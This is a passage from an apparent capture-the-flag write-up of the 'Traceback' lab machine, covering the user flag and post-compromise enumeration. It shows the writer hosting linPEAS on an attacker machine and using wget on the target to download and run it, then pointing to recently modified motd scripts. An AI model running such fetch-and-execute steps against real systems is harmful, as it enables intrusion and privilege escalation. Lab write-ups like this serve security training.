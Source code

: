 
And we find ***user.txt*** file in ***sysadmin*** home directory:

![user-txt.png](images/user-txt.png)


### 3.3- Post-Compromise Enumeration

We set up a web server on our machine with **`python3 -m http.server 80`**, download linPEAS on the target using **`wget`**, and run it:
~~~
sysadmin@traceback:~$ wget http://10.10.14.20/linpeas.sh
--2020-08-14 23:06:07--  http://10.10.14.20/linpeas.sh
Connecting to 10.10.14.20:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 160507 (157K) [text/x-sh]
Saving to: 'linpeas.sh'

linpeas.sh          100%[===================>] 156.75K   701KB/s    in 0.2s

2020-08-14 23:06:07 (701 KB/s) - 'linpeas.sh' saved [160507/160507]

sysadmin@traceback:~$ chmod +x linpeas.sh
sysadmin@traceback:~$ ./linpeas.sh
~~~

It's not easy to find, but if you have a close look, you will notice something about **motd** also known as **Message Of The Day**.

First, some files in _**/etc/update-motd.d/**_ were modified udring the last 5 minutes:

![linpeas1.png](images/linpeas1.png)
